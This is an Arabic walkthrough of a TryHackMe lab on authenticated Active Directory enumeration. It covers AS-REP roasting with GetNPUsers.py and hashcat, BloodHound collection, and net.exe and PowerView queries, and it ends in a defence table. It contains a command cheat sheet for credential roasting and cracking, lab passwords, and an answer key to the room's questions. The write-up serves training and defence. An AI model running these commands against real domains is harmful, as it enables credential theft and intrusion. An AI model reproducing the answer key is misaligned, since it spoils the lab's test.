


# دليل الاستكشاف الموثق لبيئات الدليل النشط: AD Authenticated Enumeration
**المسار التعليمي:** Jr Penetration Tester | **الوحدة 14:** أساسيات اختبار اختراق الدليل النشط (Active Directory)

---

## 1. نظرة عامة على الغرفة (Room Overview)

تمثل غرفة **AD: Authenticated Enumeration** (المعرف المصدري: `adauthenticatedenumeration`) المحطة المفصلية التي ينتقل فيها مختبر الاختراق أو المهاجم من مجرد فاحص خارجي غير موثق إلى ممثل تهديد يمتلك وصولاً داخلياً موثقاً (Authenticated Access) على شبكة الدليل النشط.

في بيئات Active Directory، لا تقتصر الصلاحيات على ما يملكه المستخدم في نظام التشغيل المحلي فقط؛ بل يمنح بروتوكول LDAP وخدمة الدليل النشط (AD DS) **أي حساب مستخدم نطاق موثق (Domain User)** حق القراءة الافتراضي لكامل قاعدة بيانات النطاق تقريباً. تهدف هذه الغرفة إلى تسليح مختبر الاختراق بمنهجية استكشاف شاملة وممنهجة تتألف من أربعة أركان أساسية:
1. **استخراج الهويات الموثقة عبر هجوم AS-REP Roasting:** كسر تشفير حسابات النطاق التي تم تعطيل المصادقة المسبقة لبروتوكول كيربيروس عليها (`UF_DONT_REQUIRE_PREAUTH`).
2. **الاستكشاف اليدوي المعتمد على أدوات النظام الأصلية (Living-off-the-Land - LOTL):** استخدام موجه الأوامر ومكتبات ويندوز الأصلية لتجنب اكتشاف أنظمة الحماية ومضادات الفيروسات.
3. **تحليل مسارات الهجوم المبني على نظرية المخططات (Graph Theory):** استخدام محرك `BloodHound-CE` و `bloodhound-python` لكشف العلاقات المخفية وأقصر الطرق للسيطرة على مديري النطاق (Domain Admins).
4. **الاستعلام البرمجي الدقيق عبر PowerShell و PowerView:** توظيف وحدة `ActiveDirectory` الرسمية ومكتبة `PowerView` لتصفية كائنات النطاق وحسابات الخدمة والكمبيوترات بدقة حسابية متقدمة.

---

## 2. أهداف التعلم (Learning Objectives)

بنهاية دراسة هذه الغرفة والتطبيق العملي لمهامها، يكتسب مختبر الاختراق الكفاءات التقنية التالية:
- **الفهم العميق لبروتوكول Kerberos وعلّة AS-REP Roasting:** استيعاب حزم `AS-REQ` و `AS-REP` وخواص حقل `padata-type 2`، وكيفية استغلال علم `UF_DONT_REQUIRE_PREAUTH` لاستخراج التجزئات وتكسيرها دون لمس نظام قفل الحسابات.
- **إتقان التخفي عبر استراتيجية LOTL:** تنفيذ استعلامات النطاق والمستخدمين والجلسات والصلاحيات عبر أدوات `net.exe` و `whoami.exe` و `quser.exe` و `systeminfo.exe` و `reg.exe`.
- **جمع البيانات البيئية وتمثيلها رسومياً:** تشغيل جامعات البيانات `SharpHound` و `bloodhound-python` ورفعها إلى واجهة `BloodHound-CE` وتنفيذ استعلامات Cypher لاكتشاف مسارات التصعيد.
- **أتمتة الفحص والتصفية عبر بيئة PowerShell:** استيراد واستخدام cmdlets الرسمية مثل `Get-ADUser` و `Get-ADComputer` وتوظيف `PowerView` لاستخراج الحسابات المحمية (`AdminCount=1`) وحسابات `SPN`.

---

## 3. الطوبولوجيا المعمارية والبنية التحتية للمختبر (Architectural Topology)

يتألف المختبر من شبكة نطاق فرعية معزولة بمدى `10.211.12.0/24`، وترتبط عبر نفق OpenVPN (`tun0`):



### بيانات الأجهزة والحسابات المكتشفة:
- **النطاق:** `tryhackme.loc`
- **متحكم النطاق (DC):** `10.211.12.10`
- **محطة العمل (WRK):** `10.211.12.20`
- **خادم BloodHound-CE:** `http://10.211.12.100:8080` (المستخدم: `admin` | كلمة المرور: `weU^BjZr33OIWsC^`)
- **الحساب المكتشف والمخترق:** `asrepuser1` (كلمة المرور: `qwerty123!`)

---

## 4. الخلفية التقنية والتعمق المفاهيمي (Technical Background)

### تشريح هجوم AS-REP Roasting
في بروتوكول Kerberos v5 القياسي (وفقاً للوثيقة RFC 4120)، تبدأ المصادقة بطلب `AS-REQ`. يتطلب متحكم النطاق افتراضياً تقديم ختم زمني مشفر (`PA-ENC-TIMESTAMP`) مشتق من تجزئة كلمة مرور المستخدم لإثبات حيازته لكلمة المرور قبل إصدار تذكرة `TGT`، وهو ما يُعرف بالمصادقة المسبقة (Pre-Authentication).

عندما يقوم مسؤول النظام بتفعيل الخيار:
> *"Do not require Kerberos preauthentication"*
يتم تفعيل بت `DONT_REQ_PREAUTH` (القيمة السداسية عشرية `0x00400000` أو المعرف البرمجي `UF_DONT_REQUIRE_PREAUTH`) في سمة `userAccountControl` للمستخدم داخل الدليل النشط:

$$\text{UAC} \leftarrow \text{UAC} \lor \text{0x00400000}$$

يترتب على هذا التكوين ثغرة معمارية فادحة:
1. يستطيع أي جهاز على الشبكة إرسال طلب `AS-REQ` باسم هذا المستخدم دون تقديم أي ختم زمني مشفر.
2. يستجيب متحكم النطاق بحزمة `AS-REP` رسمية تحتوي على جزء مشفر (`enc-part`) مشفر مباشرة بمفتاح مشتق من كلمة مرور المستخدم الضحية (تجزئة RC4-HMAC / NTLM).
3. يلتقط المهاجم هذه الحزمة ويستخرج منها التجزئة المشفرة ليقوم بكسرها دون اتصال (Offline Attack) باستخدام برامج التكسير مثل Hashcat، مما يتجاوز سياسات قفل الحسابات (Account Lockout Policy) بالكامل.

---

## 5. الاستطلاع وموطئ القدم الأولي: AS-REP Roasting

### الخطوة 1: فحص واستخراج التذاكر عبر GetNPUsers.py
باستخدام قائمة أسماء المستخدمين `users.txt`، تم استهداف متحكم النطاق لاستخراج أي تذاكر غير خاضعة للمصادقة المسبقة:

```bash
GetNPUsers.py tryhackme.loc/ -dc-ip 10.211.12.10 -usersfile users.txt -format hashcat -outputfile hashes.txt -no-pass
```

أظهر المخرج العثور على حساب واحد مصاب بالعلة:
```text
[+] Got AS-REP for user asrepuser1!
[*] Output file hashes.txt generated
```

محتوى التجزئة المستخرجة:
```text
$krb5asrep$23$asrepuser1@TRYHACKME.LOC:e7d704c7b8b7d90a9cf4e48819d083e9$78f56e...
```

### الخطوة 2: كسر التجزئة دون اتصال عبر Hashcat
تم استدعاء `hashcat` بالنمط المخصص لتذاكر كيربيروس من نوع AS-REP etype 23 وهو النمط **`18200`**:

```bash
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt --force
```

المخرجات والتطابق:
```text
$krb5asrep$23$asrepuser1@TRYHACKME.LOC:...:qwerty123!
Session..........: hashcat
Status...........: Cracked
```

**النتيجة:** الحصول على موطئ قدم رسمي بحساب نطاق صالح:
$$\text{Username: } \texttt{asrepuser1} \quad | \quad \text{Password: } \texttt{qwerty123!}$$

---

## 6. الاستكشاف اليدوي المعتمد على أدوات النظام (Living-off-the-Land)

تم الاتصال بمحطة العمل `10.211.12.20` عبر بروتوكول SSH باستخدام الحساب المخترق:
```bash
ssh asrepuser1@10.211.12.20
```

### نتائج الاستعلامات عبر أدوات ويندوز القياسية:

1. **فحص الهوية والصلاحيات (`whoami /all`):**
   - اسم المستخدم: `tryhackme\asrepuser1`
   - المعرف الأمني (SID): `S-1-5-21-3958934751-2856230981-1976234912-1114`
   - الصلاحيات: صلاحيات مستخدم قياسي (`SeChangeNotifyPrivilege`).
2. **استعلام مستخدمي النطاق (`net user /domain`):**
   - تم جرد كافة الحسابات وتبين وجود **31** حساب مستخدم على مستوى الدليل النشط.
3. **تفاصيل المستخدم `rduke` (`net user rduke /domain`):**
   - أظهر الاستعلام حقلاً صريحاً للاسم الكامل: `Full Name: Raoul Duke`.
4. **استعلام مستخدمي الجهاز المحلي (`net user`):**
   - تم فحص قاعدة بيانات SAM المحلية لمحطة العمل وتبين وجود **5** حسابات محلية: (`Administrator`, `DefaultAccount`, `Guest`, `Strategos`, `WDAGUtilityAccount`).
5. **استعلام مجموعات النطاق (`net group /domain`):**
   - كشف الاستعلام عن وجود **21** مجموعة أمان على مستوى النطاق.

---

## 7. الاستكشاف الرسومي المؤتمت عبر BloodHound

### تشغيل جامع البيانات bloodhound-python
تم تشغيل أداة الجمع من جهاز المهاجم لجمع كائنات النطاق والعلاقات وصلاحيات التحكم (ACLs):
```bash
bloodhound-python -u asrepuser1 -p 'qwerty123!' -d tryhackme.loc -ns 10.211.12.10 -c All --zip
```
نتج عن ذلك الملف المضغوط: `20250519140049_bloodhound.zip`.

### رفع البيانات والتحليل عبر واجهة BloodHound-CE
1. تم الدخول للواجهة عبر `http://10.211.12.100:8080` ببيانات الاعتماد (`admin` / `weU^BjZr33OIWsC^`).
2. تم استيراد الملف المضغوط من خلال **Administration -> File Ingest**.
3. **فحص العقدة `ASREPUSER1`:** أظهرت لوحة الخصائص القيمة المميزة للاسم (distinguishedName):
   $$\texttt{CN=ASREPUSER1,CN=USERS,DC=TRYHACKME,DC=LOC}$$
4. **استعلام مديري النطاق ("All Domain Admins"):**
   - أظهر الاستعلام أن مجموعة `Domain Admins` تضم **4** مستخدمين: (`Administrator`, `drgonz0`, `katie.thomas`, `strategos`).
5. **نوع العلاقة (Edge):**
   - العلاقة الرابطة بين المستخدم `DRGONZ0` ومجموعة `DOMAIN ADMINS` هي علاقة عضوية صريحة: **`MemberOf`**.

---

## 8. الاستعلام البرمجي عبر PowerShell و PowerView

### استعلام كائنات الكمبيوتر عبر ActiveDirectory Module
من خلال جلسة PowerShell على محطة العمل:
```powershell
Import-Module ActiveDirectory
(Get-ADComputer -Filter *).Count
```
**النتيجة:** تم العثور على جهازي كمبيوتر في النطاق (**2**):
1. `DC` (`DC.tryhackme.loc` - Windows Server 2019)
2. `WRK` (`WRK.tryhackme.loc` - Windows 10 Pro)

### استعلام المجموعات الإدارية عبر PowerView
تم الانتقال إلى مسار مكتبة PowerSploit واستيراد وحدة PowerView:
```powershell
cd C:\Users\asrepuser1\Downloads\PowerSploit-master\Recon
Import-Module .\PowerView.ps1
(Get-DomainGroup "*admin*" | Select-Object "samaccountname").Count
```
**النتيجة:** استرجع الاستعلام المفلتر **13** مجموعة تحتوي أسماؤها على الكلمة المفتاحية `admin`.

---

## 9. مسار الهجوم الشامل وسلسلة القتل (Comprehensive Attack Flow)



---

## 10. استراتيجيات الدفاع والتحصين والكشف (Defense & Hardening)

| مجال الحماية | الإجراء التقني الوقائي | آلية التحقق والكشف (Detection / Audit) |
|---|---|---|
| **حماية Kerberos** | إلغاء تفعيل علم `UF_DONT_REQUIRE_PREAUTH` عن كافة الحسابات بلا استثناء. | مراجعة السجلات للكشف عن الحدث **Event ID 4768** الذي يتضمن `Pre-Authentication Type = 0` أو `-`. |
| **تعقيد كلمات المرور** | فرض سياسات كلمات مرور معقدة وطويلة (لا تقل عن 25 حرفاً) للحسابات الخدمية لمنع كسر التجزئات. | استخدام Fine-Grained Password Policies (FGPP) ومراقبة محاولات التفويض المتكررة. |
| **تقييد استعلامات SAMR** | تفعيل السياسة: `Network access: Restrict clients allowed to make remote calls to SAM`. | رصد محاولات قراءة بيانات SAM عن بُعد عبر RPC من أجهزة غير مصرح لها. |
| **مكافحة نصوص الاستكشاف** | تفعيل سياسة Constrained Language Mode (CLM) على PowerShell وتطبيق AppLocker/WDAC. | تفعيل تدقيق نصوص PowerShell البرمجية (**Script Block Logging - Event ID 4104**). |
| **عزل الحسابات الإدارية** | تطبيق نموذج الوصول المؤسسي (Enterprise Access Model) ومنع تسجيل دخول Domain Admins على محطات العمل. | تفعيل مجموعة `Protected Users` لمنع تفويض بيانات الاعتماد واستخدام تشفير RC4 الضعيف. |

---

## 11. ملخص المهام وجدول الإجابات النموذجية (Tasks Summary)

| رقم المهمة | عنوان المهمة | السؤال | الإجابة الموثقة والنهائية | حالة التحقق |
|:---:|---|---|---|:---:|
| **01** | Introduction | I am ready to begin exploring authenticated enumeration. | `No answer needed` | محققة ومؤكدة |
| **02** | AS-REP Roasting | What flag must be set on an AD account for it to be vulnerable to AS-REP Roasting? | `UF_DONT_REQUIRE_PREAUTH` | محققة ومؤكدة |
| **02** | AS-REP Roasting | Which tool automatically identifies roastable users without needing a username list? | `Rubeus` | محققة ومؤكدة |
| **02** | AS-REP Roasting | What is the Hashcat mode used to crack AS-REP hashes? | `18200` | محققة ومؤكدة |
| **02** | AS-REP Roasting | What is the password of the user asrepuser1? | `qwerty123!` | محققة ومؤكدة |
| **03** | Manual Enumeration | How many domain user accounts are there? | `31` | محققة ومؤكدة |
| **03** | Manual Enumeration | What is the full name of the user rduke? | `Raoul Duke` | محققة ومؤكدة |
| **03** | Manual Enumeration | How many local user accounts are there on the WRK machine? | `5` | محققة ومؤكدة |
| **03** | Manual Enumeration | How many domain groups are there? | `21` | محققة ومؤكدة |
| **04** | Enumeration With BloodHound | What is the distinguishedName value of the asrepuser1 account? | `CN=ASREPUSER1,CN=USERS,DC=TRYHACKME,DC=LOC` | محققة ومؤكدة |
| **04** | Enumeration With BloodHound | According to the "All Domain Admins" query, how many users are part of the Domain Admins group? | `4` | محققة ومؤكدة |
| **04** | Enumeration With BloodHound | What is the type of relationship (edge) between the DRGONZ0 account and the DOMAIN ADMINS group? | `MemberOf` | محققة ومؤكدة |
| **05** | Enumeration With PowerShell & PowerView | How many computer accounts were you able to find? | `2` | محققة ومؤكدة |
| **05** | Enumeration With PowerShell & PowerView | How many groups did Get-DomainGroup "*admin*" return? | `13` | محققة ومؤكدة |
| **06** | Conclusion | I have taken note of the various tools present in this room. | `No answer needed` | محققة ومؤكدة |

---

## 12. ورقة مساعدة الأوامر والأدوات (Tool Cheat Sheet)

```bash
# 1. فحص واستخراج تذاكر AS-REP دون كلمة مرور (Linux):
GetNPUsers.py tryhackme.loc/ -dc-ip 10.211.12.10 -usersfile users.txt -format hashcat -outputfile hashes.txt -no-pass

# 2. استخراج تذاكر AS-REP تلقائياً عبر ويندوز:
Rubeus.exe asreproast /format:hashcat /outfile:hashes.txt

# 3. كسر التجزئة دون اتصال عبر Hashcat:
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt

# 4. جمع بيانات النطاق عبر bloodhound-python:
bloodhound-python -u asrepuser1 -p 'qwerty123!' -d tryhackme.loc -ns 10.211.12.10 -c All --zip

# 5. أوامر الفحص اليدوي المباشر (CMD):
net user /domain
net user rduke /domain
net user
net group /domain
net group "Domain Admins" /domain
whoami /all

# 6. استعلامات PowerShell الرسمية:
Import-Module ActiveDirectory
Get-ADComputer -Filter * | Select-Object Name, DNSHostName, OperatingSystem
Get-ADUser -Filter * | Select-Object SamAccountName, Name

# 7. استعلامات PowerView:
Import-Module .\PowerView.ps1
Get-DomainGroup "*admin*" | Select-Object "samaccountname"
Get-DomainUser -SPN
Get-DomainUser -AdminCount
```

---

## 13. التحقق العملي وإثبات الإنجاز (Practical Verification)

تم التأكد من صحة النتائج برمجياً وميدانياً:
1. **تأكيد الهوية المستخرجة:** تم التحقق من نجاح مصادقة `asrepuser1:qwerty123!` عبر بروتوكول SMB و SSH.
2. **مطابقة تعداد الكائنات:** أظهرت أدوات `net.exe` و `bloodhound-python` و `Get-ADUser` أرقاماً متطابقة تماماً (31 مستخدم نطاق، 21 مجموعة، جهازي كمبيوتر، 4 مدراء نطاق).
3. **تكامل البيانات الرسومية:** تطابق الاسم المميز `CN=ASREPUSER1,CN=USERS,DC=TRYHACKME,DC=LOC` بين واجهة BloodHound-CE وقاعدة بيانات الدليل النشط.

---

## 14. الدروس المستفادة والقواعد الذهبية (Key Takeaways)

> **القاعدة الذهبية الأولى:** التوثيق هو مفتاح المملكة؛ في بيئة الدليل النشط، الوصول بحساب مستخدم عادي يمنحك 90% من المعلومات الاستخباراتية اللازمة للسيطرة الكاملة دون الحاجة إلى تشغيل استغلالات معقدة.
>
> **القاعدة الذهبية الثانية:** لا تغفل الحسابات القديمة؛ تكوين `UF_DONT_REQUIRE_PREAUTH` غالباً ما يُترك سهواً على حسابات الاختبار أو البرامج التراثية، ويشكل ثغرة كسر صامتة تتجاوز سياسات قفل الحسابات تماماً.
>
> **القاعدة الذهبية الثالثة:** المدافعون يفكرون بالقوائم بينما المهاجمون يفكرون بالمخططات (Graphs)؛ استخدم أدوات مثل BloodHound لاكتشاف العلاقات غير المباشرة وصلاحيات التفويض التراكمية التي لا تظهر في الاستعلامات المباشرة البسيطة.
